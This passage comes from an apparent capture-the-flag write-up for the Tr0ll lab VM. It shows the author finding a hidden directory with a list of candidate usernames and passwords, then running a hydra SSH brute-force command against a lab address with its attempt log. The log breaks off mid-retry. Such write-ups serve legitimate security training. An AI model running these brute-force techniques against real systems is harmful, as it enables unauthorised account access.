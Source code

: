 Nice. `0x0856BF` is not exactly helpful. But what does it mean? From the previous analysis I have done it also looked like the bin is really just printing the string as can be seen above. After some poking around and exchanging ideas with [@barrebas](https://twitter.com/barrebas) on IRC, I remembered that the previous vague hint was a directory on the web site. So, I tried http://192.168.56.101/0x0856BF/:

{% img https://i.imgur.com/yXWgKij.png %}

##nohydraplz

Cool! At this stage I was pretty sure there was not much left to gain shell. The folder `good_luck` had a file called `which_one_lol.txt` with contents:

```text which_one_lol.txt
maleus
ps-aux
felux
Eagle11
genphlux < -- Definitely not this one
usmc8892
blawrg
wytshadow
vis1t0r
overflow
```

List of passwords? Dunno. The folder `this_folder_contains_the_password` had a file `Pass.txt` with contents:

```text Pass.txt
Good_job_:)
```

At this stage I figured this had to be either a nicely provided wordlist for some `hydra` action on the `ftp` || `ssh` service. So naturally, I copied the information to a file called `list.txt` (also made a copy of the `genphlux` word so that its on its own line), and fired up hydra on `ssh`:

```bash Tr0ll hydra
root@kali:~# hydra -v -V -u -L list -P list -t 1 -u 192.168.56.101 ssh 
Hydra v7.6 (c)2013 by van Hauser/THC & David Maciejak - for legal purposes only

[DATA] attacking service ssh on port 22
[VERBOSE] Resolving addresses ... done
[ATTEMPT] target 192.168.56.101 - login "maleus" - pass "maleus" - 1 of 169 [child 0]
[ATTEMPT] target 192.168.56.101 - login "ps-aux" - pass "maleus" - 2 of 169 [child 0]
[ATTEMPT] target 192.168.56.101 - login "felux" - pass "maleus" - 3 of 169 [child 0]
[ATTEMPT] target 192.168.56.101 - login "Eagle11" - pass "maleus" - 4 of 169 [child 0]
[ATTEMPT] target 192.168.56.101 - login "genphlux < -- Definitely not this one" - pass "maleus" - 5 of 169 [child 0]
[ATTEMPT] target 192.168.56.101 - login "genphlux" - pass "maleus" - 6 of 169 [child 0]
[ATTEMPT] target 192.168.56.101 - login "usmc8892" - pass "maleus" - 7 of 169 [child 0]

[ERROR] could not connect to target port 22
[ERROR] ssh protocol error
[VERBOSE] Retrying connection for child 0
[RE-ATTEMPT] target 192.168.56.101 - login "usmc8892" - pass "maleus" - 7 of 169 [child 0]

[ERROR] could not connect to target port 22
[ERROR] ssh protocol error
[VERBOSE] Retrying connection for child 0
[RE-ATTEMPT] target 192.168.56.101 - login "usmc8892" - pass "maleus" - 7 of 169 [child 0]
```
